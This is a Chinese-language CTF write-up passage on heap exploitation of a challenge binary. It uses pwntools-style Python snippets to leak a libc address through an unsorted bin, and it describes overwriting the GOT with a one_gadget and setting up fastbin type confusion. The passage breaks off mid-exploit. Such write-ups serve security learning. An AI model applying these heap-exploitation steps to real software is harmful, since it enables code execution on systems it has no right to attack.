 ### 利用

首先需要leak libc，然后改got表为one_gadget即可。思考一下怎样布局，leak libc。

#### leak libc

因为leak的都是content指针指向的堆块，所以只要让两个content指针指向同一个unsorted bin，先将它free，再show出来即可。

```python
add(0x80 * "a" + "\n") # 0
add(0x80 * "a" + "\n") # 1
add(0x10 * "b" + "\n") # 2

free(0) # head is 1

show(1)

addr = p.recvuntil("\x7f")[-6:].ljust(8, "\x00")
libc.address = addr - 0x3c4b78
```

#### 劫持控制流

我们完全可以按daily的思路，构造fastbin attack，然后就可以劫持到任意地址。首先尝试直接劫持到malloc_hook之前的地址，但是由于必须写很多数据，失败。

所以不能再用fastbin attack的思路了，尝试构造类型混淆。

首先创建三个0x10的content

```
add(0x10 * "a" + "\n") # 4
add(0x10 * "a" + "\n") # 5
add(0x10 * "a" + "\n") # 6
free(5)
free(6)
```

然后free掉，使得fastbin为：

```
p6->c4->p5->c4
```

然后再分配：

```
add(0x20 * "a" + "\n") # 5
```

true_p5 = old_p6 true_c5 = other

此时，fastbin为：

```
c4->p5->c4
```

再分配

```
add(0x10 * "b" + "\n") # 6
```
